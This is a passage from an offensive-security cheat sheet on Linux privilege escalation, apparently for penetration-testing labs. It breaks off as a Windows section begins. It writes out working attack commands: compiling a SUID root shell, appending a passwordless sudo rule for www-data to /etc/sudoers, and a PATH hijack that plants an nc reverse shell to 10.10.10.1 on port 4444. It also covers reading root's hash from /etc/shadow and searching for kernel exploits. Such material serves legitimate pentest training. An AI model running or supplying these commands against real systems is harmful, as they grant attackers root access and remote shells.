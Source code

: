               Building the SUID Shell binary
              gcc -o suid suid.c
              For 32 bit:
              gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file transfer)

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c
              gcc privsc.c -o privsc

-   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

-   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on
    port 4444.

         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

-   SearchSploit

              searchsploit –uncsearchsploit apache 2.2
              searchsploit "Linux Kernel"
              searchsploit linux 2.6 | grep -i ubuntu | grep local
              searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0

     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)

-   Collect root password

    `cat /etc/shadow |grep root`

-   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:
